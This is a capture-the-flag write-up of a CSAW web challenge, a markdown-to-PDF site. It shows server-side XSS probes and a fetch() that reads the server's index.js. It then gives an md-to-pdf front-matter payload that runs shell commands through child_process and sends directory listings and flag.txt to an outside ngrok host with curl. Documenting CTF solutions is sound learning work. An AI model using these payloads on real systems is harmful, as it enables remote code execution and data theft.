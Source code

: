 ```yaml
---
Category: WEB | 148 pts - 204 Solves
---
```


# My little website

> Description: I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...
> [http://web.chal.csaw.io:5013](http://web.chal.csaw.io:5013)

The challenge comes as a pdf rendering website, we can inject markdown or maybe...javascript.\
First thing, check for XSS:

```javascript
<script> document.write(window.location) </script>
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

Ok, vulnerable, actually, it's Server-Side XSS, as we're not injecting code in the webpage (client-side), instead we executing code on the server-side of the application. \
Let's try something more interesting:

```javascript
<script>document.write('<iframe src="/"></iframe>')</script>
```

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

We're inside /chal directory, node.js webapp, but index.js seems definitely something interesting for us, let's try to read it:

```javascript
<script>
fetch('index.js')
  .then(response => response.text())
  .then(text => document.write(text))
</script>
```

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

That's a lot of info, but what's most important is the `mdToPdf` package, with a quick search we'll know that we can do RCE: [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880).

```javascript
---js
require('child_process').execSync('ls -la > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

No flag here, let's try to look one directory above:

```javascript
---js
require('child_process').execSync('ls -la .. > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

Here we go, read flag.txt:

```javascript
---js
require('child_process').execSync('curl -d @../flag.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

> CTF{pdf\_c0nt1nu3s\_70\_5uCK}
